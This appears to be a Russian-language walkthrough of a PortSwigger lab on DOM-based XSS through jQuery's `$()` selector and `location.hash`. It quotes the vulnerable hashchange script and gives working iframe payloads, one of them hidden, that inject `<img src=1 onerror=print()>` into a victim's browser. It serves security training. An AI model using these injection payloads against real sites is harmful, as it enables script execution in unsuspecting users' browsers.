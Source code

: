 Эта лаборатория содержит уязвимость сценариев на основе DOM на домашней странице. Он использует jQuery's `$()` Селекторная функция в автоматическую прокрутку в данное сообщение, название которого передается через `location.hash` свойство.


## Дано

уязвимость сценариев на домашней странице
функция автоматическая прокрутка сообщения, через `location.hash` свойство.

## Задача

 предоставить жертве эксплойт, который вызовет `print()`функцию в ее браузере


# Разведка

- На главной странице скрипт найден скрипт
![[Pasted image 20250129100820.png]]



```
<script>
    // Обработчик события изменения хэша в URL
    $(window).on('hashchange', function() {
        
        // Получаем текст из хэша, удаляя символ '#'
        var hashText = decodeURIComponent(window.location.hash.slice(1));

        // Ищем заголовок поста, который соответствует тексту из хэша
        var post = $('section.blog-list h2:contains(' + hashText + ')');

        // Если пост найден, прокручиваем страницу к нему        
        if (post) {
            post.get(0).scrollIntoView();
        }
    });
</script>
```
Когда происходит изменения хеша он запускает функции ниже которые ориентируются на заголовки H2 и прокручиваются к ним
`https://0aa900ae036032f68d91d9c800130093.web-security-academy.net/#Black%20Market%20Dealings`

решётка указывает на заголовок H2 которому нас прокручивает

- При неверном имени код не обрабатывает


# Атака

Формируем ссылку с payload 
`/#Say It With Flowers - Or Maybe Not onload="this.src+='<img src="1" onerror=alert(1)>'">`

```
<iframe src="https://0aa900ae036032f68d91d9c800130093.web-security-academy.net/#Black Market Dealings" onload="this.src +='<img src=1 onerror=print()>'">
</iframe>
```

чтоб не видели прогрузку сайта hidden
```
<iframe src="https://0aa900ae036032f68d91d9c800130093.web-security-academy.net/#Black Market Dealings" onload="this.src +='<img src=1 onerror=print()>'" hidden="hidden">
</iframe>
```

- первым загружается изображени в src
- Следом идёт onload так как изображение удачно прогрузилось
- Изменяем src на недействующую картинку и тем самым вызываем onerror
- hidden чтоб спрятать прогрузку iframe

